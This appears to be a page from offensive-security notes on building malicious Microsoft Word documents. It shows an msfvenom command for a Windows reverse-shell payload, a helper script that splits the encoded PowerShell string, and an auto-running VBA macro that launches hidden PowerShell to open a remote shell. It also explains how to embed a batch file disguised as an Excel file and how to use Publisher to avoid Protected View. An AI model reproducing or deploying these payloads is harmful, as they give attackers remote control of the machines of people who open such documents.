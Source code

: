 This is the general Microsoft Word Macro (.doc) approach:

{% hint style="info" %}
For newer Office file extensions such as .docm these modifications might be needed:

```
Dim objShell As Object
    
Set objShell = CreateObject("WScript.Shell")

objShell.Run Str
```
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```python
# Generate PS base64-encoded payload (careful with lport, choose one that is open on the target)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.0 LPORT=445 -f hta-psh -o file.hta
# Copy just the encoded part to paste it on the next script
grep -oP 'powershell.exe .*\"' file.hta | tr -d '"' | xclip -sel clip

# Python script to split Base64 encoded string
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
	
# Macro invoking PowerShell to create a reverse shell
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Dim objShell As Object
    
    Set objShell = CreateObject("WScript.Shell")
    
    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    Str = Str + "..."
    ...
    Str = Str + "QA="

    objShell.Run Str
    
End Sub


# OBJECT LINKING AND EMBEDDING
Leverage Object Linking and Embedding (OLE) to abuse Microsoft Office's document-embedding feature.
In this attack scenario, we are going to embed a Windows batch file inside a Microsoft Word document.
Object menu > Create from file > select script.bat, change display icon and name to Excel and readme.xls
# Inside .bat script something like this:
START powershell.exe -nop -w hidden -e FZc9jpB2... # last part is base64 command

# EVADING PROTECTED VIEW
Use the embedded object above on another Office app like Publisher that does not have Protected View for Internet documents.
```
{% endcode %}